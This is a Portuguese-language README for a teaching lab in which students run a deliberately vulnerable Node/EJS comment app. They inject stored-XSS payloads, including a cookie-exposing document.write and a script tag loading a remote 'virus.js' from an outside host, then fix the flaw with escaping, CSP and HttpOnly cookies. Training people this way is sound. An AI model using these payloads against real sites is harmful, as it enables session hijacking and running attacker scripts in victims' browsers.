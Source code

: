 # Forkando e clonando este repositório

1. Faça _login_ no [GitHub](https://github.com).
2. Acesse [https://github.com/faustocintra/vulcom-sqli-XXXX](https://github.com/faustocintra/vulcom-sqli-XXXX).
3. Clique sobre o botão `[Fork]` no canto superior direito.
4. Na página seguinte ("Create new fork"), não altere nada, simplesmente clique sobre o botão `[Create fork]`. Aguarde.
5. Confira se a URL mostrada no navegador corresponde a "https://github.com/**<SEU USUÁRIO>**/vulcom-sqli-XXXX".
6. Clique sobre o botão verde `[Code]` e copie o endereço do seu repositório forkado.
7. Abra o Visual Studio Code. Se houver algum projeto aberto, feche-o usando a opção de menu `Arquivo > Fechar Pasta` (ou `File > Close folder`).
8. Clique sobre o botão que se parece com um `Y` na barra vertical esquerda do Visual Studio Code. Em seguida, clique sobre o botão `[Clonar repositório...]` (ou `[Clone repository...]`). Nessa etapa, se o Git não estiver instalado na máquina, será necessário baixá-lo (a partir de [https://git-scm.com/](https://git-scm.com/)) e instalá-lo antes de poder clonar o repositório.
9. Na caixa de diálogo que se abre no alto da janela, cole o endereço do repositório copiado no passo 6.
10. Escolha um pasta local do computador para armazenar os arquivos do repositório clonado.
11. Ao ser perguntado se deseja abrir o repositório clonado, clique sobre o botão `[Abrir]`.
12. 7. Abra o terminal integrado do VS Code (`Ctrl+Aspa simples`).
13. Instale as dependências do projeto executando `npm install` no terminal.
14. Verifique se foram detectadas vulnerabilidades. Em caso positivo, execute `npm audit fix`.
15. Para rodar o projeto, execute `npm start` no terminal.
16. Acesse a aplicação em [http://localhost:3000](http://localhost:3000).

---

### 🧀 Explorando a vulnerabilidade

A aplicação permite **comentários**, mas **não sanitiza a entrada do usuário**.
Isso significa que você pode inserir **código JavaScript malicioso**.

Experimente postar este comentário:

```html
<script>alert('XSS encontrado!');</script>
```

Se a aplicação estiver vulnerável, você verá um **alert()** sendo executado no navegador! 🔥

---

### 🚩 Capturando a Flag

Dentro da aplicação há uma _flag_ escondida. Tente capturá-la usando:

```html
<script>document.write('<h1>' + document.cookie + '</h1>');</script>
```

Se bem-sucedido, o **_cookie_ da sessão** será exposto, o que pode ser usado para roubar a identidade de usuários logados.

---

### ☠️ Executando um _script_ malicioso mais "interessante

Experimente comentar

```html
<script src="https://faustocintra.com.br/_seg/virus.js"></script>
```

---

### 🚀 Desafio extra

Modifique o código para **corrigir a vulnerabilidade**! Algumas técnicas incluem:

- **Sanitização da entrada** (escape de HTML ou bibliotecas como `DOMPurify`).
- **Uso de Content Security Policy (CSP)** para bloquear execução de _scripts_ injetados.
- **Definir a flag `HttpOnly` nos _cookies_** para impedir acesso via JavaScript.
- Usar a **_tag_ de saída de HTML com escape** da biblioteca **ejs** (com a qual o _front-end_ desta aplicação foi desenvolvido).

---

💡 **Dica:** Teste diferentes abordagens de ataque e tente explorar outras vulnerabilidades no código! Boa sorte! 🚀
